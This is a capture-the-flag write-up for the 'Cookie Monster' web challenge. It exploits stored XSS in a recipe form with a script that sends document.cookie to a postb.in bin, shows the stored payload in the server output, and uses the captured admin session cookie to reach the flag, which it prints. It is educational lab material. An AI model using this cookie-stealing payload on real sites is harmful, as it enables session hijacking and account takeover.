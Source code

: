 # Cookie Monster

## Challenge
* Category: Web Security
* Points: 200

Lets make some yummy cookies! Maybe you can even find some extra tasty ones: http://challenge.acictf.com:45101.

### Hints
* The admin can see the flag on the admin page.
* You can control the value so select all you want.
* If you need an endpoint for a callback, [postb.in](https://postb.in/) is a useful resource. You could also run a simple server on the competition's shell server using a command like python -m SimpleHTTPServer.


## Solution

### Tools
* Chrome > Dev Tools
* [postb.in](https://postb.in/)
* python script score.py


Before we get started, go to the challenge page http://challenge.acictf.com:45101 and familiarize yourself with the site. Right-Click > Inspect and then add a bunch of ingredients, click `Bake!` and watch the changes that occur on the website. Lets document the process of baking and submitting a "Cookie" recipe for approval.

* Loading the website takes you to the `/cookie` endpoint in the URL.
* Here, you give your recipe a name and add "ingredients" like flower, sugar, etc to the form.
* Then you click `Bake!`, which does a `POST` to `/cookie/new` endpoint.
  * Take note of the ingredients `<script>...</script>` at the bottom of the page. We'll discuss this in a bit.
* After clicking `Bake!` we re-directed to a new endpoint `/cookie/ae55d3b7-a835-40ec-a0aa-5de7ba5f0f4e`. The uuid4 after `/cookie/` changes.
* This page contains 2 important parts.
  * First a `Submit For Approval by Cookie Monster` button which makes a `POST` to the `/approve` endpoint.
  * Second there is a link on the page to the `/admin` endpoint. Expand the `More Info` button on the top right and below `Give me cookie` is a link that activates when you hover over it.

Lets discuss what is going on with this page and forumlate an order of operations for exploiting this page. First, go [here](https://excess-xss.com/) and read up on XSS, paying close attention to `Cookie theft`.

![cookie html](images/cookie_html.png)

Lets discuss the two areas of the HTML above I have marked in red.
* The box marked 1 is the form where we select ingredients we add to our recipe. We will demonstrate below they are not doing any input validation.
* The box marked 2 is the javascript that runs on the ingredients. If we are able to inject code above into a `value="some code"` from box 1, this section would run that code.

Try editing the value for the ingredient `flour`. Then click the `Bake!` button. I changed `<option value="laxatives">flour</option>` and clicked bake. Huzzah! We discovered they are not doing any input validation. Who would put `laxatives` in their cookies? This will serve as the source for our XSS injection.

![laxatives](images/laxatives.png)


Try putting some javascript in the `value=` form and see if it runs. Lets put `<script>window.alert('Hello World')</script>`.

![hello world](images/hello_world.png)

Excellent. We now know what we inject into the ingredient form is executable. If you read [this](https://excess-xss.com/) article referenced above, you will know we are going to have to page callout to our endpoint and give us some information.

Go to https://postb.in/ and click `Create Bin`. Grab the URL and lets put it into some javascript. `<script>document.location='https://postb.in/1589057416057-1402036985382?hello='+document.cookie</script>`, add the `flour` ingredient, and click `Bake!`.  Our page redirects to our postb.in website and if you go back to your postb.in page and refresh, you will see it updated with callback information from our session. Specifically in our script we told the page to send the `document.cookie` over to our postb.in page.

This is cool and all, but so far we've only produced a client-side exploit. We are interested in a server-side exploit so we can access the admin page for the flag. This is where the script `score.py` comes into play. Lets break down that the script does.

#### score.py
* We will use python's [requests](https://requests.readthedocs.io/en/master/user/advanced/) library to create a session with the website
* Then the script does a `POST` to the `/cookie/new` endpoint with our payload in the data. This generates the `/cookie/<uuid4>` endpoint
* We need to regex the `cookie ID` from the server response so we can use it in the next `POST`
* Finally, the script does a `POST` to the `/approve` endpoint with the `cookie_id` we regexed in the data.

Edit score.py and modify the payload to match your postb.in url.
```
payload = '<script>document.location="https://postb.in/1589057416057-1402036985382?hello="+document.cookie</script>'
```
Now run score.py
```
$ python3 score.py
200
071161fa-c5db-4d26-a99a-d58c13342f10
http://challenge.acictf.com:45101/cookie/071161fa-c5db-4d26-a99a-d58c13342f10
200
b'\n<!doctype html>\n<html lang="en">\n  <head>\n    <meta charset="utf-8">\n    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">\n    <meta name="description" content="">\n    <meta name="author" content="">\n    <title>Cookie Monster\'s Recipies</title>\n\n    <!-- Bootstrap core CSS -->\n    <link href="/static/css/bootstrap.min.css" rel="stylesheet">\n    <style>\n.monster {\n  position:fixed;\n  width:600px;\n  height:100%;\n  bottom: -380px;\n  right: 0px;\n  opacity: .5;\n  background-image: url(/static/cookie_monster.png);\n  background-repeat: no-repeat;\n  pointer-events: none;\n}\n    </style>\n\n    <!-- Custom styles for this template -->\n  </head>\n\n  <body>\n    <header>\n      <div class="navbar navbar-light bg-light box-shadow fixed-top">\n        <div class="container d-flex justify-content-between">\n          <a href="#" class="navbar-brand d-flex align-items-center">\n            <strong>Cookie Monster\'s Cookies</strong>\n          </a>\n          <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarHeader" aria-controls="navbarHeader" aria-expanded="false" aria-label="Toggle navigation">\n            <span class="">More Info</span>\n          </button>\n        </div>\n      </div>\n      <div style="margin-top: 58px"></div>\n      <div class="collapse bg-dark" id="navbarHeader">\n        <div class="container">\n          <div class="row">\n            <div class="col-sm-8 col-md-7 py-4">\n              <h4 class="text-white">About</h4>\n              <p class="text-muted">Cookie monster like cookies and want to share with all you! Me let you share ways to make cookie here, but only if me likes your cookies enough...</p>\n            </div>\n            <div class="col-sm-4 offset-md-1 py-4">\n              <h4 class="text-white">Cookies</h4>\n              <ul class="list-unstyled">\n                <li><a href="/cookie" class="text-white">Give me cookie</a></li>\n                <li><a href="/admin" class="text-dark">Cookie Admin</a></li>\n              </ul>\n            </div>\n          </div>\n        </div>\n      </div>\n    </header>\n\n    <main role="main">\n\n<div class="album py-5 bg-light">\n<div class="container">\n  <div class="row">\n    <div class="col-6">\n      <h1 class="page-header">blarg</h1>\n      <p>1. Preheat the oven to 350</p>\n<p>2. Add in 2 ounces of <script>document.location="https://postb.in/1589057416057-1402036985382?hello="+document.cookie</script></p>\n<p>3. Bake for 42 minutes and allow to cool</p>\n    </div>\n    <div class="col-6">\n      \n          <button class="btn btn-warning" disabled>Cookie Monster is viewing this cookie</button>\n      \n    </div>\n  </div>\n</div>\n\n\n    </main>\n\n    <footer class="text-muted">\n      <div class="container">\n        <p class="float-right">\n        </p>\n        <p><a href="/cookie">Tell me about cookie</a></p>\n      </div>\n    </footer>\n\n    <!-- Bootstrap core JavaScript\n    ================================================== -->\n    <!-- Placed at the end of the document so the pages load faster -->\n    <script src="https://code.jquery.com/jquery-3.2.1.slim.min.js" integrity="sha384-KJ3o2DKtIkvYIK3UENzmM7KCkRr/rE9/Qpg6aAZGJwFDMVNA/GpGFF93hXpG5KkN" crossorigin="anonymous"></script>\n    <script>window.jQuery || document.write(\'<script src="../../assets/js/vendor/jquery-slim.min.js"><\\/script>\')</script>\n    <script src="/static/js/popper.min.js"></script>\n    <script src="/static/js/bootstrap.min.js"></script>\n    <script src="/static/js/holder.min.js"></script>\n    \n    \n    <div class="monster"></div>\n  </body>\n</html>\n'
```

This is great and all, but the score.py does not give us the flag. FYI, score.py just prints a bunch of stuff to make sure we are getting 200 response from the website.

Go over to your postb.in website and refresh the page. You should see a new entry.

![postb.in](images/postb_in.png)

We have successfully conducted a server-side exploit. The `session=4338c3c2-2b40-4bdf-94ae-ab9b8bc3fc68` is the admin's cookie.

Now you just have to use that session cookie to access the `/admin` endpoint.

Go back to the site, Right-Click > Inspect. Across the top of Chrome, Click the `Application` tab. On the left side expand Cookies and select our site. Paste the session cookie from our postb.in page into the session value.

![admin session](images/admin_session.png)

Now on the cookie monster website, find that hidden `admin` link and click it. You should see something like this below:

![flag recipe](images/flag_recipe.png)

Click your `Flag Cookie` for the flag.

![flag cookie](images/flag_cookie.png)

**ACI{00892906aa63e2a1dc271d58816}**
